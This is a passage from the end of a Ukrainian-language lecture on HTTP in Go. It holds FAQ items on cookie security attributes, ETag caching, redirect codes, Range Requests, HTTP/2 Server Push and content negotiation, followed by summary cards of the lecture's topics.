::accordion-item{label="❓ Чому важливо встановлювати атрибути HttpOnly та Secure для session cookies?" icon="i-lucide-help-circle"}

**`HttpOnly`** робить cookie недоступним через JavaScript (`document.cookie`), що захищає від атак **XSS** (_Cross-Site Scripting_). Якщо зловмисник знайде вразливість у frontend-коді і впровадить скрипт, він не зможе викрасти сесійний токен.

**`Secure`** гарантує, що cookie передається лише через **HTTPS**, ніколи через незахищений HTTP. Це запобігає перехопленню cookie при атаці **Man-in-the-Middle** у відкритих Wi-Fi мережах.

Без цих атрибутів сесійні куки стають легкою мішенню для зловмисників.

::

::accordion-item{label="❓ Що таке ETag і як він допомагає зменшити трафік?" icon="i-lucide-help-circle"}

**ETag** (_Entity Tag_) — це унікальний ідентифікатор версії ресурсу (зазвичай хеш вмісту). Коли клієнт повторно запитує ресурс, він відправляє збережений ETag через заголовок `If-None-Match`. Якщо ресурс **не змінився**, сервер повертає статус-код **304 Not Modified** без тіла відповіді — економія трафіку може сягати 99% для великих ресурсів (зображення, PDF, JSON з сотнями об'єктів). Браузер використовує кешовану версію.

::

::accordion-item{label="❓ Яка різниця між статус-кодами 301 та 307 редиректів?" icon="i-lucide-help-circle"}

**301 Moved Permanently** — постійний редирект, але історично браузери можуть **змінити POST на GET** при автоматичному переході. Пошукові системи оновлюють індекси.

**307 Temporary Redirect** — тимчасовий редирект з **гарантією збереження HTTP-методу**: якщо клієнт відправив POST із тілом, редирект буде POST із тим самим тілом. Використовується для RESTful API, де важлива семантика методу.

Для API рекомендується використовувати **307** (тимчасовий) або **308** (постійний з збереженням методу) замість 301/302.

::

::accordion-item{label="❓ Навіщо потрібен механізм Range Requests?" icon="i-lucide-help-circle"}

**Range Requests** дозволяє клієнту запитувати лише частину файлу (діапазон байтів) замість завантаження повністю. Це критично для:

1. **Докачування великих файлів** — якщо завантаження обірвалося на 80%, клієнт продовжує з місця обриву, а не з початку.
2. **Потокового відео** — відеоплеєр завантажує лише поточний сегмент, економлячи трафік.
3. **Швидкого перегляду PDF** — PDF-в'юер завантажує лише поточну сторінку.

Без Range Requests користувачі з повільним інтернетом не могли б ефективно працювати з великими файлами.

::

::accordion-item{label="❓ Як HTTP/2 Server Push може погіршити продуктивність?" icon="i-lucide-help-circle"}

Якщо браузер **уже має ресурс у кеші** (CSS, JS, шрифти), Server Push відправить його повторно, **марнуючи трафік** та блокуючи пропускну здатність для критичних даних. Також, якщо клієнт використовує повільне з'єднання (3G), проштовхування великих ресурсів може затримати завантаження критичного HTML.

**Правильне використання:** Push лише критичні ресурси (above-the-fold CSS), які гарантовано потрібні, і лише для нових користувачів без кешу. Сучасні CDN (Cloudflare, Fastly) автоматично визначають, чи потрібен Push, на основі заголовка `Cookie`.

::

::accordion-item{label="❓ Що робить Content Negotiation важливим для RESTful API?" icon="i-lucide-help-circle"}

**Content Negotiation** дозволяє одному API-ендпоінту обслуговувати **різні типи клієнтів**: вебдодаток отримує JSON, мобільний клієнт — компактний Protobuf, адміністративна панель — XML, звітна система — CSV. Це забезпечує **гнучкість без дублювання коду** — один обробник, багато форматів.

Клієнт вказує бажаний формат через заголовок `Accept`, сервер обирає найкращий. Це стандарт RESTful архітектури рівня зрілості Richardson Level 3.

::

::

---

## Висновки та ключові поняття

У цій лекції ми здійснили всебічне дослідження протоколу HTTP та його реалізації в Go — від елементарного TCP-сервера до професійних продакшн-застосунків із підтримкою кешування, часткового завантаження та HTTP/2. Ми розібрали:

::card-group

::card{title="📚 Фундаментальні концепції HTTP" icon="i-lucide-book-open"}

- **Еволюція протоколу:** HTTP/1.0 → HTTP/1.1 (постійні з'єднання) → HTTP/2 (мультиплексування, Server Push, HPACK) → HTTP/3 (QUIC).
- **Анатомія запитів/відповідей:** стартовий рядок, заголовки, тіло, структура повідомлень.
- **Семантика HTTP-методів:** GET (safe, idempotent), POST (not idempotent), PUT/PATCH (idempotent), DELETE (idempotent).
- **Статус-коди:** 1xx (інформаційні), 2xx (успіх), 3xx (редиректи), 4xx (помилки клієнта), 5xx (помилки сервера).
- **Редиректи:** 301 vs 307 vs 308, збереження методу, ланцюжки редиректів.

::

::card{title="🔐 Безпека та стан" icon="i-lucide-shield"}

- **HTTP Cookies:** життєвий цикл, session vs persistent, атрибути безпеки (HttpOnly, Secure, SameSite).
- **Захист від атак:** XSS (HttpOnly), MITM (Secure), CSRF (SameSite).
- **Таймаути та захист:** ReadTimeout, WriteTimeout, IdleTimeout, захист від Slowloris.
- **TLS/HTTPS:** налаштування сертифікатів, автоматична підтримка HTTP/2 через ALPN.

::

::card{title="⚡ Оптимізація продуктивності" icon="i-lucide-zap"}

- **HTTP Caching:** Cache-Control, max-age, ETag, Last-Modified, умовні запити (If-None-Match, If-Modified-Since), статус-код 304.
- **Content Negotiation:** Accept, Accept-Encoding (gzip, br), Accept-Language, багатоформатні API.
- **Range Requests:** часткове завантаження (статус-код 206), докачування файлів, потокове відео.
- **HTTP/2 можливості:** мультиплексування потоків, Server Push, пріоритизація, HPACK стиснення заголовків.

::

::card{title="🛠️ Практична реалізація у Go" icon="i-lucide-code"}

- **Пакет `net/http`:** інтерфейс `http.Handler`, `http.ServeMux`, `http.HandlerFunc`.
- **Кастомний сервер:** `http.Server` з налаштуванням таймаутів, TLS, MaxHeaderBytes.
- **Обробка різних типів запитів:** query-параметри, заголовки, JSON, форми, multipart/form-data, потокові дані.
- **Potokове введення/виведення:** `io.Copy`, `io.CopyN`, передача великих файлів без завантаження в пам'ять.
- **Graceful Shutdown:** коректне завершення при SIGTERM/SIGINT, контекст із таймаутом.
- **Модульне тестування:** `net/http/httptest`, створення фіктивних запитів та відповідей.
- **Cookies у Go:** встановлення через `http.SetCookie`, читання через `r.Cookie`, видалення (MaxAge=-1).
- **ETag реалізація:** генерація хешу, перевірка If-None-Match, повернення 304.
- **Range Requests:** ручна реалізація або автоматична через `http.ServeFile`.

::

::

::tip
**Наступний крок:** У наступній лекції ми перейдемо до вивчення **маршрутизатора Chi** та принципів проєктування **REST API**, де опануємо патерни параметрів шляху, суб-роутери, Middleware та формування стандартизованих відповідей згідно з RFC 7807 Problem Details.
::

